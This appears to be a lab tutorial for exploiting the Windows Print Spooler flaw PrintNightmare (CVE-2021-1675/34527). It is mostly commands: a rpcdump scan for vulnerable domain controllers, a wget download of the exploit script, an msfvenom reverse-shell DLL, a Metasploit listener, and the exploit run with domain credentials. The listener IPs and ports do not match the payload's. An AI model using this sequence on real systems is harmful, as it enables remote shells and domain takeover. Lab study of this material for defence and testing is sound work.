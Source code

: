 ## Scanning Vulnerable hosts with rpcdump.py

```powershell
# rpcdump.py @DC-IP | egrep 'MS-RPRN|MS-PAR'
$ rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'
```

**_Expected Output :_**

```
Protocol: [MS-RPRN]: Print System Remote Protocol 
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
```


![](https://i.imgur.com/GkOuslZ.png)


### Preparation in Kali

Open a terminal and enter the following commands. This will get an alternate package of impacket and will download the python script needed for this exploit

```powershell
$ cd /opt/
$ sudo pip3 uninstall impacket
$ git clone https://github.com/cube0x0/impacket
$ cd impacket
$ sudo python3 ./setup.py install
$ sudo wget https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py

```


![exploit for the PrintNightmare](https://i.imgur.com/jCILEM9.png)


Now we are going to create the DLL that we will be using to create a reverse shell. Type in the following command and change the IP to your kali machine IP and copy the dll to the tmp directory


```powershell
$ sudo msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=192.168.0.157 LPORT=7777 -o reverse.dll
```




Next we will start a listener with `msfconsole`. Type in the following commands

```powershell
$ msfconsole
msf6 > use multi/handler
msf6 > set PAYLOAD windows/x64/shell_reverse_tcp
msf6 > set LHOST 10.0.0.132
msf6 > set LPORT 443
msf6 > run
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-3.png)

## Exploiting the PrintNightmare

Navigate to the tmp directory as that is where we have our `.py` file. Type in the following command to start the exploit. Please do change the **IP** address to your lab environment. 
**Note :** the first **IP** is the **Domain Controller-IP** and the second **IP** is the kali machine

```
sudo python3 CVE-2021-1675.py marvel.local/fcastle:Password1@192.168.0.149 '\\192.168.0.157\smb\reverse.dll'
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-4-1024x876.png)

## Reference

- [CVE-2021-34527 – Security Update Guide – Microsoft – Windows Print Spooler Remote Code Execution Vulnerability](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)
- [GitHub – cube0x0/CVE-2021-1675: C# and Impacket implementation of PrintNightmare CVE-2021-1675/CVE-2021-34527](https://github.com/cube0x0/CVE-2021-1675)